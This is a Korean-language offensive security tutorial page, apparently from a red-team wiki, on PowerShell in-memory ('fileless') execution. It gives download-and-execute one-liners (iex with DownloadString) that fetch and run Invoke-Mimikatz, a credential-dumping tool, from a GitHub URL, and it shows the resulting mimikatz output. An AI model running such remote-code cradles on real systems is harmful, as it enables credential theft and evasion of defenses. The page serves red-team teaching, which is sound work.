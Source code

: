 # 인메모리 실행

파워쉘 공격의 가장 큰 장점 중 하나는 바로 메모리상에서 파워쉘 코드를 실행시킬 수 있다는 것이다. 인메모리 실행 (In-Memory Execution)이라고도 불리고, 2010년대 중반에는 "Fileless Attack" 공격으로도 불렸었다. 말 그대로 디스크에 파일이 없이 공격이 가능하다는 것이다. 이것이 가능한 이유는 파워쉘이 인터프리티드 언어 (Interpreted Language) 이기 때문이다. 파워쉘 코드를 `powershell.exe` 프로세스에서 실행할 경우 백엔드의 인터프리터가 코드 한 줄 한 줄을 메모리상에서 실행 시킨다.&#x20;

인메모리 실행을 할 경우 디스크에 악성 파일이 남지 않고, 정적 분석이 아닌 메모리분석을 해야하기 때문에 방어 우회를 하기가 조금 더 편하다 - 편했었다. 2022년도 기준에는 파워쉘 로깅 및 보안이 워낙 더 탄탄하기 때문에 오히려 인메모리 파워쉘 실행이 더 어렵기도 하다.&#x20;

### 실습&#x20;

실습에서는 윈도우 디펜더를 끈 상태에서 진행한다. 추후 윈도우 디펜더 및 AMSI를 우회하는 방법에 대해서는 [AMSI 우회 페이지](../../defense-evasion/amsi-bypass.md)에 따로 서술한다.&#x20;

인메모리 실행은 다른 호스트에 있는 파워쉘을 다운로드 받은 뒤 로드 (Load) 시키는 형태로 이뤄진다.&#x20;

```powershell
# 원격 파워쉘 다운 후 불러오기 
iex(new-object net.webclient).downloadstring("<url>");

# 예시 - BCSecurity의 empire 프로젝트에서 Invoke-Mimikatz.ps1 다운 + 불러오기 
 iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

`(new-object net.webclient).downloadstring("<url>")` 를 통해 원격의 파워쉘 코드를 다운 받은 뒤, `iex` 로 다운 받은 파워쉘 코드를 실행 (Invoke-Expression) 하는 것이다. 이렇게 되면 현 파워쉘 프로세스에 원격 파워쉘 코드를 불러온 상태가 된다. 이 상태에서 불러온 파워쉘을 실행시키면 실행 결과가 나온다.&#x20;

```powershell
PS C:\> Invoke-Mimikatz -Command "coffee"
Hostname: DESKTOP-71L41J7 / S-1-5-21-462821047-2831688090-1286352653

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'
```

이를 한번에 묶어 다운로드 + 불러오기 + 실행을 한꺼번에 할 수도 있다.&#x20;

```powershell
iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command "coffee"
```

